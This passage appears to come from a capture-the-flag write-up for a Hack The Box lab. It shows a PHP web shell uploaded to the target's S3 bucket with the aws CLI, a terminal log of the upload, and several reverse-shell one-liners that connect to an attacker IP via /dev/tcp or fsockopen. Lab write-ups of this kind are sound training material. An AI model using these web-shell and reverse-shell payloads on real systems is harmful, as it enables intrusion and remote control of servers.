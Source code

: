 `<?php system($_GET["cmd"]); ?>`

To create a PHP file to upload:

`echo '<?php system($_GET["cmd"]); ?>' > shell.php`
or
```
echo '<?php `$_GET["cmd"]` ?>' > shell.php
```

Then, we can upload that `shell.php` to the `thetoppers.htb` S3 bucket using the following command:

`aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb`

After this, the /shell.php page will be available by `http://<target IP>/shell.php`, and the URL argument "cmd" can be specified as usual:
`http://<target IP>/shell.php?cmd=<command to execute>`


	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-04ijrv9nft]─[~]
	└──╼ [★]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-04ijrv9nft]─[~]
	└──╼ [★]$ ls 
	cacert.der  Documents  Music    Pictures  shell.php  Videos
	Desktop     Downloads  my_data  Public    Templates
	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-04ijrv9nft]─[~]
	└──╼ [★]$ aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
	upload: ./shell.php to s3://thetoppers.htb/shell.php


We can confirm that our shell is uploaded by navigating to http://thetoppers.htb/shell.php. Let us try executing the OS command `id` using the URL parameter `cmd`.

> **Note:** the target IP address has been changed at this point due to restarting the exercise and the target host.

![[Pasted image 20240901131816.png]]

The response from the server contains the output of the OS command `id` , which verified that we have code execution on the box. So, let's try to obtain a reverse shell now.


## Other PHP reverse shell solutions

`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/443 0>&1'");?>`
or
`<?php exec("/bin/bash -c 'bash -i > /dev/tcp/ATTACKING-IP/1234 0>&1'");`
or
`php -r '$sock=fsockopen("<ip>",<port>);exec("sh <&3 >&3 2>&3");'`

The PHP reverse shell one-liner opens a TCP socket and connects it to the attacker's IP and port. It then executes a shell, redirecting the input, output, and error streams to the socket.
A listener is needed on the attacker side, waiting for a connection. Set it up with the attacker machine's IP and a chosen port number.


## Steps to setting up the reverse shell
